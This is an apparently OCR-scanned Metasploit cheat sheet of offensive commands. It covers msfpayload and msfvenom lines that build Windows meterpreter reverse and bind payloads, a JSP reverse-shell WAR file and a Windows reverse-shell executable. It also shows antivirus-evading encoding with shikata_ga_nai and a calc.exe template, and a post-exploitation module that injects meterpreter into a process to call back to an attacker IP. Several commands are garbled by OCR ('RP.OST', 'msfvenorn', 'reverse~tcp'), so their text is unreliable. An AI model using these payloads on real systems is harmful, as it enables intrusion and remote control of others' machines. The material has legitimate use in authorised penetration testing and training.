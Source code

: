 
### Creating meterpreter payload \(for Linux: -t file -o callback\)

```text
./msfpayload windows/meterpreter/reverse tcp LHOST=ip LPORT=port R |
./msfencode -t exe -o callback.exe -e x86/shikata_ga nai -c 5
```

### Create payload with bound meterpreter

```text
./msfpayload windows/meterpreter/bind_tcp RP.OST=ip LPORT=port X
cb.exe
```

### Creating a Java reverse shell

```text
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.14 LPORT=9999 -f WAR > exploit.war
```

### Creating a reverse shell for Windows with msfvenom


```msfvenom -p windows/shell_reverse_tcp lhost=ip lport=port -f exe --platform windows >reverse.exe```

### Generate encoded payload using msfvenom

```text
./msfvenorn --payload windows/meterpreter/reverse~tcp --format exe
template calc.exe -k --encoder x86/shikata_ga_nai -i 5 LHOST=1.1.1.1
LPORT=443 callback.exe
```

### Start database msf \(bt5=mysql,kali=postgresql\)

```text
/etc/rc.d/rc.mysqld start
msf db_create root:pass@localhost/metasploit
msf load db mysql
msf db connect root:pass@localhost/metasploit
msf db=import nmap.xml

--- Kali ---
# service postgresql start
# service metasploit start
```

### return the shell \(by default it will run notepad and injection\)


```text
msf use post/windows/manage/multi meterpreter inject
msf set IPLIST attack ip 
msf set LPORT callback port
msf set PIDLIST PID to inject, default creates new notepad
msf set PAYLOAD windows/meterpreter/reverse_tcp
msf set SESSION meterpreter session ID
```
